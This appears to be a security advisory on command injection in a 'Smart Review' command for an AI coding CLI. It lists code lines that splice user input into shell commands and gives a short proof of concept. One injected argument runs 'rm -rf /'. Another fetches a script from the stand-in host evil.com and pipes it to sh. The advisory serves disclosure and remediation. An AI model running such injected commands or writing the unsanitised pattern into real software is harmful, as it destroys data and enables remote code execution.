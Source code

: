 # SECURITY ADVISORY - CRITICAL

**Product**: Smart Review Command  
**Severity**: CRITICAL  
**Date**: 2025-08-13  
**Status**: IMMEDIATE ACTION REQUIRED

## Executive Summary

The Smart Review command contains multiple critical security vulnerabilities that allow for remote code execution, unauthorized file system access, and information disclosure. **DO NOT DEPLOY TO PRODUCTION** until all vulnerabilities are remediated.

## Critical Vulnerabilities

### 1. Command Injection (CVE-Pending)

**Severity**: CRITICAL (CVSS 3.1: 9.8)  
**Attack Vector**: Network  
**Privileges Required**: None  
**User Interaction**: None  

#### Description
User-controlled input is directly concatenated into shell commands without sanitization, allowing arbitrary command execution.

#### Affected Code Locations
```javascript
// Line 146 - Direct command execution
await terminal.run(`mkdir -p ${outputDir}`);

// Lines 169-173 - Git command with user input
const gitCommand = lastCheckTime 
  ? `git diff --name-only --since="${lastCheckTime.toISOString()}"`
  : 'git diff --name-only HEAD~1';

// Lines 237-246 - Agent command construction
const filesArg = targetFiles.length > 0 
  ? `--files "${targetFiles.join(',')}"` 
  : `--target "${target}"`;
return `${baseCommand} ${filesArg} --iteration ${iteration}`;

// Line 669 - Comment agent execution
const command = `claude agent run ${commentAgent.id} --target "${target}"`;
```

#### Proof of Concept
```bash
# Exploit via target parameter
claude smart-review --target "; rm -rf / #"

# Exploit via output-dir parameter
claude smart-review --output-dir ".; curl evil.com/malware.sh | sh #"
```
